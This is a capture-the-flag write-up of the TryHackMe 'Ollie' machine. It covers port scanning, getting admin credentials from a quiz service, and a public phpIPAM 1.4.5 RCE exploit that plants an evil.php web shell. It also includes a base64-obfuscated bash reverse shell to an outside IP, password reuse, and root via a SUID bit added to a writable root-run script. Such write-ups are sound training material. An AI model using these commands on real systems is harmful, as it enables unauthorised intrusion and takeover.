## TL;DR

We start with find credentials for admin on port `1337`. Then, we exploit known `RCE` on phpIPAM to get shell as `www-data`. we escalte to `ollie` with same password we got before.

To get root access, we find `/usr/bin/feedme` which is being executed by `root`, and is writeable by `ollie`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -A
```



As we can see, the opened ports are port `22` with ssh and port `80` with apache http server, and port `1337`, which is very strange. (I didn't wait for the `rustscan` script to ends, i viewed this with nmap on specific ports)  
```bash
┌──(agonen㉿kali)-[~/thm/Ollie]
└─$ rustscan -a $target -- -A  
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/agonen/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.80.170.67:22
Open 10.80.170.67:80
Open 10.80.170.67:1337
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
```

Let's add `ollie` to our `/etc/hosts`.

### Find serivce on port 1337 and get credentials for admin

When I checked the port `1337`, I found simple server that asks quiestions, and if it gets the right answer, which is "Bulldog", it gives us credentials.
```bash
┌──(agonen㉿kali)-[~/thm/Ollie]
└─$ nc ollie 1337
Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.

What is your name? elicopter
What's up, Elicopter! It's been a while. What are you here for? Give Me the Flag
Ya' know what? Elicopter. If you can answer a question about me, I might have something for you.


What breed of dog am I? I'll make it a multiple choice question to keep it easy: Bulldog, Husky, Duck or Wolf? Bulldog
You are correct! Let me confer with my trusted colleagues; Benny, Baxter and Connie...
Please hold on a minute
Ok, I'm back.
After a lengthy discussion, we've come to the conclusion that you are the right person for the job.Here are the credentials for our administration panel.

                    Username: admin

                    Password: OllieUnixMontgomery!

PS: Good luck and next time bring some treats!
```



Now, let's login with these credentials:
```bash
admin:OllieUnixMontgomery!
```

We log in here `http://ollie/index.php?page=login`.



### Get RCE using known exploit for phpIPAM 1.4.5

This is `phpIPAM v1.4.5`, as shown at the bottom of the image. 
I found `RCE` exploit using `searchsploit`. 

```bash
┌──(agonen㉿kali)-[~/thm/Ollie]
└─$ searchsploit phpIPAM 1.4.5                            
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
phpIPAM 1.4.5 - Remote Code Execution (RCE) (Authenticated)                                                    | php/webapps/50963.py
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```



Okay, let's try to use this exploit with the credentials we have.
```bash
┌──(agonen㉿kali)-[~/thm/Ollie]
└─$ python3 50963.py -usr admin -pwd OllieUnixMontgomery! -url http://ollie/

█▀█ █░█ █▀█ █ █▀█ ▄▀█ █▀▄▀█   ▄█ ░ █░█ ░ █▀   █▀ █▀█ █░░ █   ▀█▀ █▀█   █▀█ █▀▀ █▀▀
█▀▀ █▀█ █▀▀ █ █▀▀ █▀█ █░▀░█   ░█ ▄ ▀▀█ ▄ ▄█   ▄█ ▀▀█ █▄▄ █   ░█░ █▄█   █▀▄ █▄▄ ██▄

█▄▄ █▄█   █▄▄ █▀▀ █░█ █ █▄░█ █▀▄ █▄█ █▀ █▀▀ █▀▀
█▄█ ░█░   █▄█ ██▄ █▀█ █ █░▀█ █▄▀ ░█░ ▄█ ██▄ █▄▄

[...] Trying to log in as admin
[+] Login successful!
[...] Exploiting
[+] Success! The shell is located at http://ollie/evil.php. Parameter: cmd


[+] Output:
1        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        3       4
```

We got the `RCE`.



Okay, we can try to send the payload for reverse shell in `penelope`, this is the payload:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzAuNjEvNDQ0NCAwPiYxKSAm|base64 -d|bash
```

Full command will be, using the reverse shell the exploit gave us:
```bash
┌──(agonen㉿kali)-[~/thm/Ollie]
└─$ curl 'http://ollie/evil.php?cmd=printf+KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzAuNjEvNDQ0NCAwPiYxKSAm|base64+-d|bash'
```



and in our `penelope`:



### Escalate to ollie with same password we find before

Using the password we found earlier, we can escalate to `ollie`, the password is `OllieUnixMontgomery!`.

We can get the user flag
```bash
www-data@ip-10-80-185-57:/var/www/html$ su ollie
Password: 
ollie@ip-10-80-185-57:/var/www/html$ cat ~/user.txt 
THM{Ollie_boi_is_daH_Cut3st}
```



### Privilege Escalation to Root

I executed `pspy32`, which i uploaded via python http server and curl to `/tmp` dir.



As you can see, there is some process that is called `feedme`, which seems to run once in a while.

Since this isn't cronjob, this is probably service. Let's use `systemctl` to find this task.
```bash
ollie@ip-10-80-185-57:/tmp$ systemctl | grep feedme
  feedme.timer                                                                                          loaded active     waiting   This is a timer to feed Ollie Boy!
```

We can find timer, `feedme.timer`, we can read its content:



Okay, this timer triggered every minute, and executes `feedme.service`.

```bash
ollie@ip-10-80-185-57:/tmp$ systemctl cat feedme.timer
# /etc/systemd/system/feedme.timer
# 0day was here

[Unit]
Description=This is a timer to feed Ollie Boy!
Requires=feedme.service

[Timer]
Unit=feedme.service
OnCalendar=*-*-* *:*:00

[Install]
WantedBy=timers.target
```

We can read the `feedme.service`:



It executes `/usr/bin/feedme` as root user.
```bash
ollie@ip-10-80-185-57:/tmp$ systemctl cat feedme.service
# /etc/systemd/system/feedme.service
# feedollie.service
# test
[Unit] 
Description= Feed Ollie
Documentation= Ollie is hungry!

[Service] 
Type= simple 
User= root

ExecStart= /usr/bin/feedme

[Install] 
WantedBy= multi-user.target
```

When we check the file `/usr/bin/feedme`, we can see this has write permissions by us, and this is bash script.

```bash
ollie@ip-10-80-185-57:/tmp$ ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 50 Nov 24 21:55 /usr/bin/feedme
```



So, we can insert our line to this script:
```bash
ollie@ip-10-80-185-57:/tmp$ echo -e 'chmod u+s /bin/bash' >> /usr/bin/feedme
```

And now, after one minute, `/bin/bash` should receive its `s` bit:
```bash
ollie@ip-10-80-185-57:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
ollie@ip-10-80-185-57:/tmp$ /bin/bash -p
bash-5.0# id
uid=1000(ollie) gid=1000(ollie) euid=0(root) groups=1000(ollie),4(adm),24(cdrom),30(dip),46(plugdev)
bash-5.0# cat /root/root.txt 
THM{Ollie_Luvs_Chicken_Fries}
```



